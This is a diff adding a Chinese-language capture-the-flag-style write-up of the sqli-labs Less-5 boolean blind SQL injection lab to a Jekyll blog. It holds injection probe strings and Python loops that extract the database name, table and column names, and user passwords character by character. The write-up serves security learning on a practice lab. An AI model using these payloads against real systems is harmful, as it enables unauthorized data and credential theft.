

Before and after one commit to GU-007/GU-007.github.io, a Jekyll site: the page built from _posts/2026-05-05-sqli-labs-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 2530 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
add writeup for Less-5(布尔盲注)

````diff
--- a/_posts/2026-05-05-sqli-labs-writeup.md
+++ b/_posts/2026-05-05-sqli-labs-writeup.md
@@ -143,3 +143,83 @@ Your Password:3 → 说明第3列的数据显示在 Password 位置
 **结论**：闭合字符为 ")，注释符 --+。
 
 #### 后续流程类似Less-1
+
+
+
+
+## Less-5 (布尔盲注 - 单引号字符型)
+
+### 第一步：注入点判断
+> ?id=1 → 显示 "You are in..."
+> ?id=1' → 报错
+> ?id=1' --+ → 显示 "You are in..."
+> ?id=1' and 1=1 --+ → 显示 "You are in..."
+> ?id=1' and 1=2 --+ → 无显示
+
+**结论**：单引号闭合，页面只有“有内容”和“无内容”两种状态，没有数据回显,使用布尔盲注。
+
+### 辅助函数定义
+- `test(condition)`：构造 `1' and [condition] #` 并发送请求，若页面包含 "You are in" 则返回 `True`，否则 `False`。
+- `get_data(sql_expr)`：利用 `test()` 自动获取任意 SQL 表达式的值（先探测长度，再逐字符猜解），返回字符串。
+
+### 第二步：获取数据库名
+先获取长度，再逐字符猜解
+
+```python
+# 长度探测：数据库名长度为 8
+for i in range(1, 31):
+    if test(f"length(database()) = {i}"):
+        db_len = i
+        break
+
+# 逐字符获取数据库名，遍历可打印 ASCII 码 32~126
+db_name = ""
+for pos in range(1, db_len+1):
+    for code in range(32, 127):
+        # 判断当前字符的 ASCII 码是否等于 code
+        if test(f"ascii(substr(database(),{pos},1)) = {code}"):
+            db_name += chr(code)
+            break
+print(f"Database: {db_name}")   # 输出 security
+```
+
+### 第三步：获取所有表名
+利用` information_schema.tables` 和 `limit`。
+```python
+# 统计表数量
+count = int(get_data("select count(*) from information_schema.tables where table_schema=database()"))
+print(f"[+] Found {count} tables")
+
+tables = []
+for i in range(count):
+    # 使用 limit i,1 依次获取第 i 个表名
+    tbl = get_data(f"select table_name from information_schema.tables where table_schema=database() limit {i},1")
+    tables.append(tbl)
+    print(f"  Table {i+1}: {tbl}")   # emails, referers, uagents, users
+```
+
+### 第四步：获取 users 表的列名
+```python
+# 统计列数
+col_count = int(get_data("select count(*) from information_schema.columns where table_schema=database() and table_name='users'"))
+print(f"[+] 'users' table has {col_count} columns")
+
+columns = []
+for i in range(col_count):
+    col = get_data(f"select column_name from information_schema.columns where table_schema=database() and table_name='users' limit {i},1")
+    columns.append(col)
+    print(f"  Column {i+1}: {col}")   # id, username, password
+```
+
+### 第五步：获取数据
+```python
+# 统计行数
+row_count = int(get_data("select count(*) from users"))
+print(f"[+] 'users' table has {row_count} rows")
+
+# 逐行提取用户名和密码
+for r in range(row_count):
+    username = get_data(f"select username from users limit {r},1")
+    password = get_data(f"select password from users limit {r},1")
+    print(f"  {username} : {password}")
+```
````
